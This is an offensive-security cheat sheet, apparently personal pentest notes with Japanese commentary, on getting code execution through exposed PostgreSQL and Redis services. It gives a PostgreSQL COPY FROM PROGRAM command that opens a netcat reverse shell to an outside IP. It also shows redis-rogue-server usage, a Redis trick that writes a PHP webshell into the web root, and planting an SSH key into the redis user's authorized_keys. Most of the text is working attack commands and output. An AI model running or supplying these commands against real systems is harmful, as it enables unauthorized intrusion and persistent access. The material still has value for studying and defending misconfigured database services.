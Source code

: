### RCE
```
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE

postgres=# COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.227 80 >/tmp/f';
```

## Redis(6379)
```
redis-cli -h 10.10.10.160
```

### RCE
redis-rogue-server:  
https://github.com/n0b0dyCN/redis-rogue-server

```
python3 redis-rogue-server.py --rhost 192.168.124.69 --rport 6379 --lhost 192.168.49.124 --lport 6379
```

### Webshell
Webサイトのディクレクトリ配下に書き込み権限がある場合に任意のPHPを仕込める。  
ただしPHPがインストールされていない環境などもあったため、上記のredis-rogue-serverを利用したRCEを推奨する。
```
kali@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/www/html/
OK # nginxの場合は/usr/share/nginx/html
10.10.10.160:6379> config set dbfilename redis.php
OK
10.10.10.160:6379> set test "<?php phpinfo(); ?>"
OK
10.10.10.160:6379> save
OK
```

### ssh
"config get dir"コマンドによりredisユーザのhomeを確認できる。  
これにより.ssh配下に書き込み権限がある場合に公開鍵を配置してやることでアクセスが可能になる。
```
ssh-keygen -t rsa -f id_rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
```
```
kali@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"　# /var/lib/redis or /home/redis/.ssh
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK

kali@kali:~# ssh -i id_rsa redis@10.10.10.160
```
